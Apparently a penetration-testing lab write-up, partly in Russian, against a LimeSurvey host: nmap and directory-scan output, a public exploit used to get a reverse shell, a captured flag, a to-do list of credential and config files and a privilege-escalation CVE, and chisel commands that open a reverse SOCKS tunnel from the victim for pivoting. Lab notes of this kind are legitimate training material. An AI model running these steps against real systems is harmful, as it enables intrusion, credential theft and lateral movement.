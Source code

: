 ![[Pasted image 20231025171306.png]]
## OPEN PORTS:
```bash
22/tcp   open   ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 5a:ee:56:d1:fe:b9:ae:38:8e:6c:c3:67:bf:ac:4a:00 (RSA)
|   256 f6:cf:cb:8f:43:31:e9:f4:56:07:aa:90:80:bb:39:d5 (ECDSA)
|_  256 49:0c:55:9c:d2:c4:28:6a:bd:a5:05:56:39:f4:79:5e (ED25519)
80/tcp   open   http        Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: LimeSurvey http://www.limesurvey.org
|_http-title:         AllSafe LimeSurvey
|_http-server-header: Apache/2.4.41 (Ubuntu)
113/tcp  closed ident
2000/tcp open   cisco-sccp?
5060/tcp open   sip?
```

## Endpoints:
```bash
[17:00:09] 200 -  114B  - /application/
[17:00:09] 200 -  114B  - /application/logs/
[17:00:10] 301 -  315B  - /assets  ->  http://10.111.111.10/assets/
[17:00:11] 200 -    2KB - /assets/
[17:00:30] 200 -    4KB - /composer.json
[17:00:35] 200 -    3KB - /CONTRIBUTING.md
[17:00:46] 301 -  313B  - /docs  ->  http://10.111.111.10/docs/
[17:00:46] 200 -    2KB - /docs/
[17:01:16] 404 -    5KB - /index.php/login/
[17:01:18] 301 -  318B  - /installer  ->  http://10.111.111.10/installer/
[17:01:26] 200 -   48KB - /LICENSE
[17:01:35] 200 -   80B  - /manifest.yml
[17:01:42] 301 -  316B  - /modules  ->  http://10.111.111.10/modules/
[17:01:42] 200 -    1KB - /modules/admin/
[17:01:42] 200 -    1KB - /modules/
[17:01:52] 200 -   62B  - /package.json
[17:02:02] 200 -  468B  - /phpunit.xml
[17:02:03] 301 -  316B  - /plugins  ->  http://10.111.111.10/plugins/
[17:02:04] 200 -  114B  - /plugins/
[17:02:13] 200 -    3KB - /README.md
[17:02:22] 403 -  278B  - /server-status
[17:02:22] 403 -  278B  - /server-status/
[17:02:45] 301 -  314B  - /tests  ->  http://10.111.111.10/tests/
[17:02:46] 200 -    4KB - /tests/
[17:02:46] 301 -  315B  - /themes  ->  http://10.111.111.10/themes/
[17:02:47] 200 -    1KB - /themes/
[17:02:48] 301 -  312B  - /tmp  ->  http://10.111.111.10/tmp/
[17:02:48] 200 -  255B  - /tmp/
[17:02:52] 301 -  315B  - /upload  ->  http://10.111.111.10/upload/
[17:02:52] 200 -    2KB - /upload/
[17:03:10] 200 -  360B  - /yarn.lock
```
## Находки:

Не подходят креды из 150.

Подходят креды из [[10.111.111.15]]


## Vulnerability 

Работает https://www.exploit-db.com/exploits/50573

Успешно получил reverse shell
![[Pasted image 20231026104524.png]]


## Flags:

user.txt: d9a7fd6a14074d27d2eacbc2bd22d06c
	

# TODO

check /etc/mysql/mariadb.cnf
check /etc/mysql/debian.cnf
check /etc/apache2/sites-enabled/limesurvey.conf
check /var/www/html/application/controllers/admin/database.php 
check /tmp/kek/CVE-2021-4034/.git



## Полезное:

Проксировать:

У себя на хосте запустить:
  ```bash
chisel server --reverse
```
На машине жертвы:
```bash 
./chisel client http://192.168.157.17:8080 R:0.0.0.0:1070:socks &
```

Перешел с этого хоста на [[10.111.111.20]]:8080